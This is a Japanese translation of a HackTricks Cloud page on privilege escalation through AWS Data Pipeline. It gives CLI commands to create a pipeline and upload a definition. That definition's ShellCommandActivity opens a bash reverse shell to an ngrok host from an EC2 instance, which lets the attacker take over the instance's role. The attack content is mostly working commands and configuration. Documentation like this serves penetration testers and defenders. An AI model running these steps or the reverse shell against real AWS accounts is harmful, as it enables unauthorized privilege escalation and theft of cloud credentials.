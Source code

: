 # AWS - データパイプラインの特権エスカレーション

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで広告表示したい**場合や、**PEASSの最新バージョンやHackTricksのPDFをダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## datapipeline

datapipelineについての詳細は以下を参照してください：

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

**`iam:PassRole`, `datapipeline:CreatePipeline`,  `datapipeline:PutPipelineDefinition,`**および**`datapipeline:ActivatePipeline`**の権限を持つ攻撃者は、**パイプラインを作成し、任意のAWS CLIコマンドを実行したり、他のリソースを作成したりするためにパイプラインを更新**することで特権をエスカレーションすることができます。
```bash
aws datapipeline create-pipeline --name my_pipeline \
--unique-id unique_string
```
次に、空のパイプラインを作成します。その後、攻撃者はパイプラインの定義を**更新する必要があります**。以下のようなコマンドを使用して、パイプラインに実行する内容を指定します。
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
注意してください。**14行目、15行目、27行目**の**role**は**datapipeline.amazonaws.comがアサムできるロール**である必要があります。また、**28行目**の**role**は**ec2.amazonaws.comがEC2プロファイルインスタンスでアサムできるロール**である必要があります。

さらに、EC2インスタンスはEC2インスタンスがアサムできるロールにのみアクセスできます（そのロールのみを盗むことができます）。
{% endhint %}
```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
--pipeline-definition file:///path/to/my/pipeline/definition.json
```
**パイプライン定義ファイルには、コマンドを実行するディレクティブやAWS APIを使用してリソースを作成するディレクティブが含まれている可能性があります。**これにより、攻撃者は追加の特権を取得することができます。

**潜在的な影響:** 指定されたEC2サービスロールへの直接特権昇格。

<details>

<summary><strong>HackTricksをサポートして特典を受け取る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
